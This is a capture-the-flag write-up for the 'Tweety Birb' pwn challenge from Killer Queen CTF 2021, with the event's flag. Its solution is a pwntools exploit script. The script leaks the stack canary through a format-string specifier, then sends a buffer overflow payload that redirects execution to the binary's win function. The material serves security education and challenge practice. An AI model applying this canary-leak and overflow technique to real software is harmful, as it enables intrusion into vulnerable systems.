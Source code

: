```yaml
---
name: Tweety Birb (2021)
event: Killer Queen CTF 2021
category: Pwn
description: Writeup for Tweety Birb (pwn) - Killer Queen CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Tweety Birb

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/xOHLniVJsJY/0.jpg)](https://youtu.be/xOHLniVJsJY?t=2382s "Killer Queen 2021: Tweety Birb")

## Challenge Description

> Pretty standard birb protection

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break *0x4011de
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './tweetybirb'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

offset = 72  # IP offset
ret = 0x40101a  # Stack alignment

# Leak canary value (15th on stack)
io.sendlineafter('magpies?', '%{}$p'.format(15))
io.recvline()
canary = int(io.recvline().strip(), 16)
info('canary = 0x%x (%d)', canary, canary)

payload = flat([
    offset * asm('nop'),
    canary,
    8 * asm('nop'),
    ret,
    elf.symbols.win
])

# Send the payload
io.sendlineafter('fowl?', payload)
io.recvline()

# Get our flag!
flag = io.recv()
success(flag)
```
{% endcode %}

Flag: `kqctf{tweet_tweet_did_you_leak_or_bruteforce_..._plz_dont_say_you_tried_bruteforce}`
